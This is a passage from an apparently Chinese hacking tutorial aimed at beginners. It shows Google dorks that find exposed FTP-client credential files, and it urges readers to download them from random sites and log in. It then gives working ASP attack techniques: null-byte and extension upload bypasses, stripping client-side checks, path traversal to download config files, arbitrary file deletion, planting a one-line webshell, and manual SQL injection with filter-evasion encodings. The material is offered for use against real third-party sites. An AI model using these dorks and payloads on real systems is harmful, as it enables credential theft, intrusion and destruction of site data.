接下来大家应该知道怎么做了吧？这个工具的另一个特点就是提供对指定网站的扫描，在“host”处填上主机域名，然后选择左边的关键字，该工具就会扫描该网站是否存在此关键字，用起来非常方便，而且该工具还提供对指定网站的批量关键字扫描。

比如我们要对 www.cxxx.com 进行扫描的话，如图143，结果也一目了然，真是个好工具，呵呵。


##### 二、攻击实例

菜鸟嘛，就应该让结果来得快——此次我们用到的关键字在目录 **files containing passwords** 下，关键字为：`LeapFTP intitle:"index.of./" "sites.ini modified"`，看看 Google 的效果，如图144。

然后随便打开一个网站，下载它的 `sites.ini`，再在本地装一个 LeapFTP，找到相应目录后覆盖对应文件。接着打开 LeapFTP，选择“站点”->“站点管理器”，就会出来相应的 FTP 服务器，如图145。

接下来就是连接服务器了。我们把关键字换成 `FLASHXP intitle:"index.of./" sites.dat quick.dat modified`，一样也有很好的效果。下载它的 `sites.dat` 和 `quick.dat` 两个文件，步骤和上面一样，效果如图146。

总结：这个工具的攻击效果远不止如此，大家可以照着上面的关键字继续搜索，耐心些、思路放开些，会有意想不到的结果。

再给一个可以直接拿服务器的关键字：`intitle:"Terminal Services Web Connection"`，或者 `intitle:"Remote Desktop Web Connection"`。这类服务是微软提供的远程连接服务，如果配置不当就会引发问题，如图147。

很明显，点击 `connect` 就可以用得到的用户名和密码连接上去。还有一些大学也有这样的网页，而 `test/test` 组合很有可能就会进去。至于权限高低，就要看后续提权。

关于如何利用 Google 进行搜索或信息探测就先到这里。如果觉得这些关键词麻烦，可以看一下 Google 的高级搜索，如图148。

如果还觉得麻烦，有个网站把一些选项简化了，网址为 `http://www.soogle.com/`，不过它对中文支持不够好。该网站可按不同需求进行搜索，界面更直接、更简单。

仔细看这一小节会发现，有时 `www.Google.com` 和 `www.Google.cn` 搜索出来的结果并不一样。


这就是我最后要强调的一点，.com 是国际英文顶级域名后缀，站点对应的服务是搜索全球范围内的网页；而 .cn 则是谷歌中国，搜索国内的信息就很精确。因此，大家在搜索的时候要选择具有针对性的搜索引擎。当然了，搜索严格地说来算作是一门艺术了，因为搜索引擎不止 Google 一家，国内的还有 Baidu、Yahoo 等，如果将这几家的搜索结果相互对比的话，我们就能搜集到更加全面的信息了。

你要是精通了 Google 搜索，你不止是一个 Google hacker，也是百度 hacker 了。而对于国内的搜索，百度可是有独到之处的。总之，只有你想不到的，没有搜索不到的，大家好好复习一下这一节的知识吧。


图149

一些关键词和语法是需要时间来记忆的，除了上面提到的 Google hack 的关键字收录网站外，这里我还推荐一个国内的搜索学习网站 http://www.sowang.com/ZHUANJIA/huipk/index.htm，从入门到精通，很适合大家学习。

## 4.5 小鸾凯歌

#### 4.5.1 针对 Access 数据库的攻击

由于 Access 一般是和 ASP 脚本语言搭配的，而由于 ASP 的简单易学，导致现在一些小型的 ASP 程序如雨后春笋般冒了出来。正是在这种情况下，一些 script hacker 开始把目光瞄准了这一块火热的土地，相继各种各样的漏洞和攻击手法逐渐浮现在我们的眼前。

由于是采用的 ASP 语言编写，代码的严谨与否就直接关系到这套程序的安全程度，而注入、数据库下载等就和数据库的类型相关了。很显然，如果程序采用的是 MSSQL，那么注入攻击的手段就会有很多；而在遇到 Access 数据库的情况下，手法就显得很死板了。因此，在介绍这一小节之前，我们先来看一看 ASP 脚本语言类型的程序会出现哪些漏洞。

- 1. 上传漏洞

说起上传，这里主要涉及到两个变量，第一个就是 FilePath（文件路径），另一个则是 FileName（文件名称）。而说起 FilePath 这个变量的上传漏洞的话，最让大家所熟知的应该是动网 6.0 的上传漏洞了。由于 FilePath 变量过滤不严，导致用户可以上传 asp（注意 asp 后面有一个空格）的脚本文件上去。虽然动网已经几易其版，但采用这种方式上传的程序还是有很多，我们现在来分析一下这种情况下的上传，还是先看代码：

```vb
<%
dim upload,file,formName,formPath,iCount,filename,fileExt  '// 定义上传变量
set upload=new upload_5xSoft  '// 建立上传对象的测试代码
formPath=upload.form("filepath")  '// 第一步：获取文件路径，此处是关键
if right(formPath,1)<>"/" then formPath=formPath&"/"
for each formName in upload.file  '// 用for读取上传文件
  set file=upload.file(formName)   '// 生成一个文件对象
  ...
  fileExt=lcase(right(file.filename,4))
  if fileEXT<>".gif" and fileEXT<>".jpg" and fileEXT<>".zip" and fileEXT<>".rar" and fileEXT<>".swf" then
    response.write "<font size=2>文件格式不正确 [<a href='#' onclick=history.go(-1)>重新上传</a>]</font>"
    response.end
  end if
  randomize
  ranNum=int(90000*rnd)+10000
  filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&fileExt
next
%>
```

提交的文件路径 + 年月日的随机文件名 + 转换后的扩展名组成……

```asp
if file.FileSize>0 then
    file.SaveAs Server.mappath(FileName)   '// 保存文件
end if
set file=nothing
next
%>
```

每一行关键代码后面都加了注释，而在这一段代码中，最为关键的又数下面两句：

```asp
formPath=upload.form("filepath")
filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&fileExt
```

理解这两句之前，我们还是先来学习一下基本知识：常量和变量。这两个知识点的最大不同就体现在“常”和“变”这两个字上。常量表示在程序中不变的值，而变量则表示在程序整个过程中随时都可能发生变化。

把目光放在最为关键的那两句代码上，第一句从变量 filepath 中获取文件的保存路径，接着在第二句中，用路径变量 formPath 加随机生成的数字及经过判断的扩展名成为一个新的变量。

我们先假设上传 test.jpg 文件，在上传过程中随文件一起上传的还有一个 filepath 变量。当这些值传到 upfile.asp 中时，filename 就变成了 “aa/200902180321944973.jpg”。上传成功后，该 test.jpg 就会保存在 aa 文件夹里，文件名字也被改成了 200902180321944973.jpg。

这个过程有没有什么突破口呢？有，因为这个过程中什么都没有过滤，没有考虑到一些特殊字符。比如把 filepath 改成 “aa/test.asp□”，其后的“□”字符表示二进制的 00（空的意思），这样该变量提交给文件 upfile.asp 处理后，filename 的值就变成了 “aa/test.asp□/200902180321944973.jpg”。服务器在读取该变量时会因为“□”而认为变量结束，从而将后续字符忽略，最终结果就成了 “aa/test.asp”。

对于这种漏洞的利用，可以使用上传工具（如图150），也可以抓包后用 NC 提交并配合 WinHex 修改空格为二进制形式；例如使用 `nc -vv host port<1.txt` 提交（如图151）。


其实对于这种古老的上传方式来说，用啊D和明小子等都可以做到。例如啊D在“相关工具-旁注/上传”下可选“上传木马”，上传类型中除“动网上传”外，还有“动力上传”及“齐客上传”类型（如图152）；明小子的“综合上传”工具栏中也可看到各种上传类型（如图153）。


##### 以上称之为“逻辑漏洞”

什么是“逻辑漏洞”呢？简单地说，这套程序在处理上传的时候犯了逻辑错误：如根本就没有任何过滤，或者过滤了一些代码但没有考虑全面；抑或是程序处理上传文件的时候不当（比较经典的就是在本地判断后缀名，而不是在服务器上）等，都可能引发漏洞。

我们还是先来看一段动易上传漏洞的代码：

```asp
<%
Const UpFileType="rar|gif|jpg|bmp|swf|mid|mp3"  '// 允许的上传文件类型
Const SaveUpFilesPath="../UploadFiles"      '// 存放上传文件的目录

Dim upload, ofile, formName, SavePath, filename, fileExt
FoundErr=false
EnableUpload=false
SavePath=SaveUpFilesPath

sub upload_0()
  set upload=new upfile_class

  for each formName in upload.file
    set ofile=upload.file(formName)

    fileExt=lcase(ofile.fileExt)
    arrUpFileType=split(UpFileType,"|")
    for i=0 to ubound(arrUpFileType)
      if fileExt=trim(arrUpFileType(i)) then
        EnableUpload=true
        exit for
      end if
    next

    if fileExt="asp" or fileExt="asa" or fileExt="aspx" then
      EnableUpload=false
    end if

    if EnableUpload=false then
      msg="这种文件类型不允许上传!\n\n只允许上传这几种文件类型: " & UpFileType
      FoundErr=true
    end if

    strJS="<SCRIPT language=javascript>" & vbcrlf
    if FoundErr<>true then
      randomize
      ranNum=int(900*rnd)+100
      filename=SavePath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
      ofile.SaveToFile Server.mappath(FileName)
      msg="上传文件成功!"
    end if
  next

  set upload=nothing
end sub
%>
```

这一段代码存在一个比较隐蔽的逻辑漏洞，代码后面已经有语句加以解释了。由于这段代码采用的是环境无组件上传，可以上传多个文件。如果你熟悉 ASP 代码的话，那么分析一下：当我们要上传两个文件的时候，这段代码有什么问题呢？

当上传多个文件的时候，我们可以把两个文件的后缀名改成 **cer、asp 空格或者 asp.**。看清楚了，还记得第一章里面的内容吗？空格或者“.”都会被服务器自动忽略的，其它几种类型的上传漏洞大抵如此。我们再回过头来看一下图153，会发现工具已经把这些漏洞利用集成在一起了，我们要做的仅仅是对号入座。

仔细想想上面的漏洞，你会发现这类漏洞发掘起来是需要一些功底的，而对这些语言掌握得是否够好，反映出了你阅读代码的准确性。有一些写程序的人，没有像上面一样把判断上传文件这样的工作放在服务端，而是通过一段 Javascript 代码放在客户端进行判断，这一点显然是不够安全的。

如这样的一个网页，我们在上传的时候选择了 asp 后缀的文件，还没有点击上传就弹出了如图154这样的对话框。

这个就是很明显的本地判断标志。试想一下，如果该上传文件是在服务端作判断的话，怎么会在没有点击“上传图片”之前就会有反应呢？而恰恰是本地的 Javascript 可以做到这一点。

我们在页面上按鼠标右键，查看一下这个页面的源文件，找到有 `<script language=javascript>` 标志的代码：


图154

```javascript
<SCRIPT language=javascript>
function check(){
  var strfile1=document.frmpic.file1.value;
  if(strfile1==""||strfile1==null){
    alert("请选择要上传的文件");
    document.frmpic.file1.focus();
    return false;
  }
}

// 预览图片
function yulan1(){
  var fileext=document.frmpic.file1.value.substring(document.frmpic.file1.value.lastIndexOf("."),document.frmpic.file1.value.length);
  fileext=fileext.toLowerCase();
  if((fileext!=".jpg")&&(fileext!=".gif")&&(fileext!=".jpeg")&&(fileext!=".png")&&(fileext!=".bmp")){
    alert("错误的图片格式！可支持的格式有 jpg|gif|png|bmp。");
    document.frmpic.file1.focus();
  }else{
    document.getElementById("preview").innerHTML="";
  }
}

// 预览Flash
function yulan2(){
  var fileext=document.frmpic.file1.value.substring(document.frmpic.file1.value.lastIndexOf("."),document.frmpic.file1.value.length);
  fileext=fileext.toLowerCase();
  if(fileext!=".swf"){
    alert("错误的Flash格式！可支持的格式有 swf。");
    document.frmpic.file1.focus();
  }else{
    document.getElementById("preview").innerHTML="<object ...><embed ...></embed></object>";
  }
}

// 判断rar
function yulan3(){
  var fileext=document.frmpic.file1.value.substring(document.frmpic.file1.value.lastIndexOf("."),document.frmpic.file1.value.length);
  fileext=fileext.toLowerCase();
  if((fileext!=".rar")&&(fileext!=".zip")&&(fileext!=".jar")){
    alert("错误的文件格式！可支持的格式有 rar|zip|jar。");
    document.frmpic.file1.focus();
  }
}
```

```html
function yulan4()
{
    var fileext=document.frmpic.file1.value.substring(document.frmpic.file1.value.lastIndexOf('.'),document.frmpic.file1.value.length)
    fileext=fileext.toLowerCase();
    if((fileext!='.txt')&&(fileext!='.doc')&&(fileext!='.xls'))
    {
        alert('错误的文件格式！可支持的格式有 doc|txt|xls。');
        document.frmpic.file1.focus();
    }
}

// 判断视频音频
function yulan5()
{
    var fileext=document.frmpic.file1.value.substring(document.frmpic.file1.value.lastIndexOf('.'),document.frmpic.file1.value.length)
    fileext=fileext.toLowerCase();
    if((fileext!='.mp3')&&(fileext!='.wav')&&(fileext!='.wmv')&&(fileext!='.mpeg'))
    {
        alert('错误的文件格式！可支持的格式有 mp3|wav|wmv|mpeg。');
        document.frmpic.file1.focus();
    }
}
</script>
```

仔细看一下，如果你觉得这段代码有点多，那么你还记得刚才弹出来的框里的内容吗？对，就是用刚才看到的内容进行搜索（这里的操作是指查看源文件的时候按下 **Ctrl+F** 键，然后搜索你需要的内容），你也会很快定位到其中判断文件后缀名的代码。

对于这样的判断，我们只需要把刚才查看的源文件保存到本地，然后把上面的这段代码，即 `<script>` 和 `</script>` 之间的内容去掉，然后构造表单的提交地址，内容如下：

```html
<form name="frmpic" method="post" action="upfile_flash.asp" enctype="multipart/form-data" onSubmit="return check()"><br>
```

这里 action 的值还要做一下修改，完整的效果应该是：`action="http://www.test.com/wj/upfile_flash.asp"`。还有，就是保存在本地的当然得是 html 或者 htm 后缀的网页文件了。

这一类的突破方法都比较简单，更有甚者，写程序的时候不仅没有限制外部对这个文件的访问，而且没有做任何过滤。虽然这种情况很少，但还是存在的，如图155，这就是我碰到的一种情况。

对于上传的部分，我就写到这里。就 ASP 而言，上传只是常见攻击中的一种，而由于上传漏洞的严重性，导致一旦发现了上传漏洞就可能导致攻击者轻而易举地拿到 WebShell。当然了，情况和环境的不一样，就得从不同的视角去看待上传了。

## 2、下载任意文件漏洞

这种漏洞可以下载任意文件，“任意”这两个字的出现就足够引起大家的注意了，特别是一些配置文件，如 `conn.asp`、`config.asp`、`Web.config` 或者数据库等等，当被别人下载之后，对网站来说，这无疑是一个很严重的安全漏洞。

当然，这个漏洞不是 ASP 脚本语言的专利，如 PHP、CGI 或者 JSP 等都有这样的漏洞存在。我们就拿 oblog 系统中的 `attachment.asp` 文件作为分析的案例，其相关代码如下：


图155

```asp
Path = Trim(Request("path"))   ' 获取用户提交的路径
FileID = Trim(Request("FileID"))
If FileID = "" And Path = "" Then
    Response.Write "参数不足"
    Response.End
End If

If CheckDownLoad Or 1 = 1 Then
    If Path = "" Then
        set rs = Server.CreateObject("ADODB.RecordSet")
        link_database
        SQL = "select file_path,userid,file_ext,ViewNum FROM oblog_upfile WHERE FileID = "&CLng(FileID)
        rs.open sql,conn,1,3
        If Not rs.Eof Then
            ...
```

```vb
...uid = rs(1)
...file_ext = rs(2)
rs("ViewNum") = rs("ViewNum") + 1
rs.Update
downloadFile Server.MapPath(rs(0)), 0
Else
    Response.Status = 404
    Response.Write "该附件不存在！"
End If
rs.Close
Set rs = Nothing

If InStr(path, Oblog.CacheConfig(56)) > 0 Then   '//注意这里，仅仅判断用户提交的路径是否包含 UploadFiles，为真则调用 downloadFile 函数下载文件
    downloadFile Server.MapPath(Path), 1
End If

' 如果附件为图片的话，当权限检验无法通过则调用默认图片，防止标记无法调用，影响显示效果
If Path = "" Then
    Response.Status = 403
    Response.Write ShowDownErr
    Response.End
Else
    downloadFile Server.MapPath(blogdir&"/images/oblog_powered.gif"), 1
End If

Set oblog = Nothing
Sub downloadFile(strFile, stype)
    On Error Resume Next
    Server.ScriptTimeOut = 9999999
    Dim s, fso, f, intFilelength, strFilename
    strFilename = strFile
    Response.Clear
    Set s = Server.CreateObject(oblog.CacheCompon(2))
    s.Open
    s.Type = 1
    Set fso = Server.CreateObject(oblog.CacheCompon(1))
    If Not fso.FileExists(strFilename) Then
        If stype = 0 Then
            Response.Status = 404
            Response.Write "该附件已经被删除!"
            Exit Sub
        Else
            strFilename = Server.MapPath(blogdir&"/images/nopic.gif")
        End If
    End If
    Set f = fso.GetFile(strFilename)
    intFilelength = f.size
    s.LoadFromFile(strFilename)
    If Err Then
        Response.Write("<h1>错误：</h1>" & Err.Description & "<p>")
        Response.End
    End If

    Set fso = Nothing
    Dim Data
    Data = s.Read
    s.Close
    Set s = Nothing

    Dim ContentType
    Select Case LCase(Right(strFile, 4))
        Case ".asp", ".mdb", ".config", ".js"   '//这里要注意了，符号“.”的利用会让这些判断丝毫不起作用
            Exit Sub
        Case ".asf"
            ContentType = "video/x-ms-asf"
        Case ".avi"
            ContentType = "video/avi"
        Case ".doc"
            ContentType = "application/msword"
```

```vb
        Case ".zip"
            ContentType = "application/zip"
        Case ".xls"
            ContentType = "application/vnd.ms-excel"
        Case ".gif"
            ContentType = "image/gif"
        Case ".jpg", ".jpeg"
            ContentType = "image/jpeg"
        Case ".wav"
            ContentType = "audio/wav"
        Case ".mp3"
            ContentType = "audio/mpeg3"
        Case ".mpg", ".mpeg"
            ContentType = "video/mpeg"
        Case ".rtf"
            ContentType = "application/rtf"
        Case ".htm", ".html"
            ContentType = "text/html"
        Case ".txt"
            ContentType = "text/plain"
        Case Else
            ContentType = "application/octet-stream"
    End Select
    If Response.IsClientConnected Then
        If Not (InStr(LCase(f.name), ".gif") > 0 Or InStr(LCase(f.name), ".jpg") > 0 Or InStr(LCase(f.name), ".jpeg") > 0 Or InStr(LCase(f.name), ".bmp") > 0 Or InStr(LCase(f.name), ".png") > 0) Then
            Response.AddHeader "Content-Disposition", "attachment; filename=" & f.name
        End If
        Response.AddHeader "Content-Length", intFilelength
        Response.CharSet = "UTF-8"
        Response.ContentType = ContentType
        Response.BinaryWrite Data
        Response.Flush
        Response.Clear()
    End If
End If
End Sub
```

正是因为过滤的不够完全，导致程序在处理下载文件的时候会让攻击者有机可乘。这里怎么利用呢？我们可以构造这样的 URL 来下载这个程序的配置文件：`http://www.target.com/attachment.asp?path=UploadFiles/../conn.asp.`，注意后面还有一个点号哦！存在这样漏洞的程序安全性不言而喻，接下来我们看一下任意删除文件的漏洞。

## 3、删除任意文件漏洞

攻击可以分为好多类型，有时候只是一个 TEST，有时候却可能会是一次恶意的攻击。我们无法弄清楚攻击者的恶意到底要做到什么程度，但如果攻击者怀有这样的敌意，而且所攻击的网站上有任意删除文件的漏洞的话，那么攻击者便不会去费其它力气，直接删除关键文件就可以导致整个网站的瘫痪。

这并不危言耸听，就在笔者写这本书的时候，eWeb2.8 版本就曝出了这样一个漏洞。出问题的文件名是 `Example\newsSystem` 目录下的 `delete.asp` 文件，该漏洞是由 Oldjun 发现的，我们来看下其漏洞分析的过程，先看如下代码：

```vb
' 把带"|"的字符串转为数组
Dim aSavePathFileName
aSavePathFileName = Split(sSavePathFileName, "|")

' 从文件夹中删除新闻相关的文件
Dim i
For i = 0 To UBound(aSavePathFileName)
    ' 按路径文件名删除文件
    Call DoDelFile(aSavePathFileName(i))
Next
```

而 aSavePathFileName 是前面从数据库取出来的：

```vb
sSavePathFileName = oRs("D_SavePathFileName")
```

看看 D_SavePathFileName 是怎么添加到数据库里的，在 addsave.asp（modifysave.asp）里：

```vb
sSavePathFileName = GetSafeStr(Request.Form("d_savepathfilename"))

oRs("D_SavePathFileName") = sSavePathFileName
```

居然过滤了，是 GetSafeStr 函数，再看看这个函数，在 Startup.asp 里：

```vb
Function GetSafeStr(str)
  GetSafeStr = Replace(Replace(Replace(Trim(str), "'", ""), Chr(34), ""), ";", "")
End Function
```

还是没有过滤，我们可以对变量 d_savepathfilename 直接赋值。如果要删除多个文件，可以用“|”来隔开。我们提交 `../../eWebEditor.asp` 后，发现主目录下的 eWebEditor.asp 文件不见了。虽然说这种类型的漏洞实际上对拿权限来说没有太大的帮助，不过仍然需要引起程序员足够的重视。

## 4、验证不严漏洞

什么叫验证不严呢？我们可以打个比方，大家都要坐车买票吧？如我们要从北京到武汉，手上车票的始发站点就是北京，终点站为武汉。上车的时候把这张车票给售票员检查，当售票员发现你这张票是假的，或者不是从北京到武汉的，那么售票员会禁止你搭乘这一趟车。而当售票员发现这张票确实是真的，并且是从北京发往武汉的，就会欢迎你乘坐这趟客车的。除了这种情况外，如果车票伪造得足够真，以致于售票员发现不了，售票员也会让你上车的。

在这个过程中，我们把票给售票员检查就相当于一次权限验证。如果售票员发现这张票是假的，或者票和这趟车的行车路线有误而拒绝，就相当于程序在验证登录的时候发现有人在伪造登录信息，从而拒绝其进入该程序的一系列过程。

车票伪造得够真，就相当于程序在处理外部提交的信息时存在缺陷（如经典的 `'or'='or'` 方式进后台），程序会把这次信息当成正确的，从而让非法攻击者进入并显示欢迎信息。

让不该进入的人进入了系统，这是一个很麻烦的事，当然我们是从管理员的角度出发的。要是你身为一个攻击者，这样的情况通常会让你获得更多更全的信息，比如获得一些 admin、upload、system 等网站敏感目录下的文件，特别是注册类的文件。

敏感目录下文件的重要性自不必说，注册类的文件同样会引起麻烦。如 VSB 网站综合管理平台就有一个这样的例子，其中的 `system/firm/firmreg.jsp` 文件验证不严，任何人都可以访问，我们就能利用这个页面注册一个账号，然后上传 JSP 类型的木马。

我举这样的一个例子是想说明，以上所说的几种类型都是脚本语言需要面对的问题，任何程序上的疏忽都有可能给网站带来灭顶之灾（瞧一下上面的任意删除文件漏洞就是一个很好的例子）。

## 5、直接写一句话木马

这类漏洞的发生同样也是过滤不严造成的，而且数据库多为 ASP 格式，如小帅分析过的 88red 系统就存在这样的问题。先来看一下留言版目录下的 conn.asp 文件部分代码：

```asp
<% on error resume next
 dim conn
 dim connstr
 dim db
 db="data/qiyedata.asa"
 Set conn = Server.CreateObject("ADODB.Connection")
 connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
 conn.Open connstr %>
```

数据库是 asa 格式的，如果没有任何过滤的话，留言的时候我们就可以提交恶意数据到数据库里。再来看一下，文件进行了数据库的调用，而 savegh.asp 恰好符合要求，相关代码如下：

```asp
if request.form("code")="" then ...
if request.form("content")="" then ...
set rs=server.createobject("adodb.recordset")
sql="select * from gb"
rs.open sql,conn,3,3
```

没有过滤！我们只需要在留言处填上一句话，然后用客户端连上去就可以得到我们的 WebShell 了。

## 6、SQL 注入攻击

之所以我没有把 SQL 笼统地来讲，是因为注入攻击和数据库的联系要大于和脚本语言的关系。我们常见的 ASP 语言是和 ACCESS 或者 MSSQL 数据库搭配，可 ASP 还可以和 MYSQL 甚至 ORACLE 一起运行，因## 判断数据库类型与注入点基础

此分数据库来讲的目的就明确了许多。

有些人瞧不起 SQL 注入攻击，其实这种想法是不对的。很多不起眼的 SQL 注入会给网站带来无法想象的灾难。就学习而言，主要还是分手工篇和工具篇，下面我们一起来接触下在纯手工的情况下如何进行 SQL 注入攻击。

注入的原理前面已经讲过了，我们直接来实战吧。通常先判断是否有注入点，就是在该 URL 后面加一个单引号，即“'”，如图 156。

仔细看图 156 的返回信息，其中有 “Microsoft JET Database Engine” 字样，我们就是靠它来判断数据库是 ACCESS，而非 MSSQL。因为 ACCESS 数据库是通过 JET 引擎连接的，而不是 ODBC；ODBC 的连接就是 MSSQL 数据库了。


图 156

如果你到这里发现还是无法判断数据库的版本的话，可以看看是不是支持一些特殊字符的注释。如 MSSQL 就支持 “;” 和 “--”，其中 “;” 是用来分离两个语句的，也就是说能够支持多句执行；而 “--” 就是注释符了，在这个符号之后的语句就会被忽略。也就是说，MSSQL 中遇到这两种符号时不会大惊小怪，而 ACCESS 遇到这样的“陌生人”就会报错。

如我在刚才的 URL 后面加一个 “;”（注意啦，这里的分号是在英文状态下输入的哦），出现的提示如图 157。如果在刚才的 URL 后面加上 “--” 也会返回错误的信息。


图 157

如果这样依然不能得到我们想要的结果，可以通过注入语句来判断。在 MSSQL 中有一个系统表，表名是 **sysobjects**，而 ACCESS 中的特殊表名为 **msysobjects**，通过查询数据库中是否存在这两个表就可以得到相应的结果。

如输入查询语句 “exists (select count(*) from sysobjects)”，完整 URL 为：`http://www.test.com/about.asp?ID=4 exists (select count(*) from sysobjects)`，我们来看一下返回的信息，如图 158。

依然是报错，从报错的信息中我们得知这个数据库里没有 “sysobjects” 这张表，那就可以否定数据库是 MSSQL 了。为了进一步确定，我们再试试另外一个语句：`http://www.test.com/about.asp?ID=4 exists (select count(*) from msysobjects)`，效果如图 159。

这次返回的信息又不一样了，因为这次是没有权限读取这张表里面的内容，也就是说这张表是存在的，但是我们的权限不够，这就更加确定目标站的数据库为 ACCESS。


图 158


图 159

##### 注入点检测与逻辑运算绕过

判断数据库我们就讲到这里，接下来还是要提一下注入点的检测。刚才提到的加特殊字符串是一种方法外，还有经典的 `and 1=1` 及 `and 1=2` 探测法。因为没有过滤我们的语句，`and 1=1` 就会被代入 SQL 查询语句进行查询，而 `and` 的意思是“和”，如果 `and` 前后的两条语句都是真的话就不会出错，但如果前面语句中有一个为假的话，程序就会报错。

我们还是以刚才的注入点做测试，大家对比着看一下如图 160 和图 161 的返回信息。

由于表达式 `1=1` 和 `1=2` 分别是“真”和“假”的关系，因此就会出现上面的情况。由于注入攻击的盛行，许多程序都加了防注入程序，但有些防注入程序防御得不够好（通常情况下是过滤得不完全），如只过滤了小写的 `and` 或者只过滤了大小写固定形式的 `and`，这样我们依然可以绕过去。

学习过 C 语言或者其他编程语言的人都知道，除了 `and` 之外，我们还可以用 `or`、`xor` 等来判断。只要在逻辑上能够明白原理，就可以从返回的信息做出明确的判断了。

如 `or` 代表着“或”，也就是说用 `or` 连接的表达式中，只要有一个正确的话整个表达式就是正确的。而 `xor` 代表着“异或”，意思即连接的表达式仅有一个为真的时候才为真。

可能 `xor` 这个运算符的解释有点绕口，大家不太明白，我来打个比方：把“1”当成一个表达式，其布尔值为“真”，而“0”代表一个布尔值为“假”的表达式，那么看了下面的几个 `xor` 运算式，说不定你就会明白：


| 运算式 | 结果 |
|---|---|
| 1 xor 1 | 0 |
| 0 xor 0 | 0 |
| 1 xor 0 | 1 |
| 0 xor 1 | 1 |

拿刚才的注入点来说明一下吧。看一下图 160，正常的页面连接是 `about.asp?ID=4`，记住本身 `http://www.test.com/about.asp?ID=4` 就参与了一次 SQL 查询，而且是正确的，所以有相应的内容作为回显。

我们提交如下 URL：`http://www.test.com/about.asp?ID=4 xor 1=1`。先分析一下，`1=1` 这个表达式为“真”，前面的查询也是正确的，也就是说前面表达式的值也是“真”，两个“真”进行 `xor` 运算，得到的结果就是“假”。


这么分析一下我们可以预计，提交 URL 后，要么报错，要么会返回其他内容，而不是如图 160 所显示的内容。好吧，来看下结果，如图 162。

果然不出所料，返回了和图 160 不一样的内容了。

试一下 `http://www.test.com/about.asp?ID=4 xor 1=2`，由于 `1=2` 表达式为“假”（1 当然不等于 2 了），于是再加上前面表达式的“真”，经过 `xor` 运算后，那么这次的提交应该和原本的没有什么变化，结果如图 163。

除此之外是关于大小写的变化，如当我们提交 `and 1=1` 的时候发现被拦截了，可以试一下 `And`、`AnD` 等其他形式的变化，说不定就可以突破。而这个时候你发现情况依然没有进展，程序对大小写进行了严格的监控，就真的没有办法了吗？不是的，我们还可以通过编码来绕过。除了常见的 URL 编码外，还有 `sql_en` 编码、HEX 编码、ASC 编码等，这些编码在注入的时候通常会大放异彩。如图 164，就是一个集多种编码转换功能于一身的工具。


图 164

如把 `AND 1=1` 转换成 URL 编码形式后为 `%41%4E%44%20%31%3D%31`，然后提交 `http://www.test.com/about.asp?ID=4 %41%4E%44%20%31%3D%31`，你会发现网页显示的信息和提交 `and 1=1` 时一样正常。

##### 数字型与字符串型注入

注意啦，仔细看上面的注入连接，你会发现 ID=4 的参数是 4，而 4 是一个数字。也就是说，我们上面说的都是针对数字型的注入。但通常情况下，我们会遇到类似 `id=nohack` 这类的参数，因为 `nohack` 是一个字符串，相应的注入类型我们称之为字符串型注入。

如果是遇到这种情况，我们要是还按上面的方法来判断，如输入 `and 1=1` 和 `and 1=2` 进行对比的话，是不会有效果的，如图 165。


图 165

图 165 显示的内容并不像我们预期的那样是一个正确的页面，而是出现了错误（有一个空的框架出现）。因为字符串类型不像数字型那样直接取值，它需要用单引号包含起来，这样才成为一个整体，成为一个字符串。因此相应的，我们进行判断时应该改成：`' and '1'='1`，合起来的 URL 就是 `http://www.test.com/CSNews/BigClassName=Seminar' and '1'='1`，返回的信息如图 166。

和图 165 比起来，差异很明显，我们试着提交一下 `http://www.test.com/CSNews/BigClassName=Seminar' and '1'='2`，结果如图 167。

如果我们遇到了提交的参数是汉字，那也是要当成字符串来处理的。那么，除了数字型和字符串型的注入外，还有其他类型的注入么？答案是有，最令大家所熟知的要数搜索型注入了，并且 hidden 类型以及基于文本框类型的注入也很多，下面我们来一起见识下。

还是先谈一下搜索型的注入吧，它一般出现在搜索页面。


图 166


图 167

##### 搜索型注入与抓包分析

如图 168，这就是一个搜索页面。试着再加一个单引号，出现了如图 169 的提示。让程序报错的不止单引号一个字符，其他字符，如“&”、“[”、“]”、“%”、“$”、“#”、“@”等特殊字符，都是可以实现的。如我提交一个“[”，结果如图 170。出现错误了，也就是说这里是有问题的。看到 URL 没有？没有出现类似前面的参数。


哦，那怎么办呢？既然网页上没有显示出来，那我们就把它们“抓”出来，这里要用到抓包工具 Wsockexpert 了。运行这个工具，点击“打开”图标，如图 171。然后选择我们要抓包的程序，如果有多个相同的进程，我们可以继续展开，然后查看相应的标题来进一步确定。这里我用的是 Firefox，选取的时候也是要选择相应的 URL，如图 172。选择好后点击“Open”，这个时候我们要做的就是在刚才的搜索框里搜索一下。这次我输入两个汉字“广告”，然后点击“搜索”，之后我们看一下这个抓包程序有什么反应，如图 173。


这样可以看到我们点击“搜索”后，网页所产生的数据内容，其中对我们有帮助的就是那个“POST”。点击它后程序下方就会显示出来发包的具体内容，我贴出来大家看下：

```http
POST /article.asp HTTP/1.1
Host: www.test.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9.0.6) Gecko/2009011913 Firefox/3.0.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: gb2312,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
Referer: http://www.test.com/article.asp
Cookie: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
select=art_title&keyword=%B9%E3%B8%E6&search=...
```

我们提交的关键字“广告”在哪里呢？前面已经说过，汉字等一些字符会经过 URL 编码，我们把“广告”二字进行相应的编码后看看是什么。编码的结果如图 174。再仔细对比着看下刚才的发包内容，发现在包的最后看到了 `%B9%E3%B8%E6` 的身影，也就是说我们提交的“广告”是用 keyword 参数提交的。


参数提交的。我们把它最下面的内容与 URL 一起连接，完整语句就是 `http://www.test.com/article.asp?select=art_title&keyword=%B9%E3%B8%E6&search=+%CB%D1+%CB%F7+`，访问后的结果如图 175。

这与我们刚才直接在搜索框里输入关键字进行访问后的效果是一样的。那么这究竟是怎么一回事呢？这里就要涉及到提交数据的方式了。


**提交数据的方式主要有 get、post 以及 cookie**，而我们上面讲到的注入形式都是以 get 方式提交的。很显然，你已经观察到利用 get 方式来提交数据的话，在 URL 上是会显示的，而刚才讲到的搜索型注入却是用 post 方式来提交数据的。

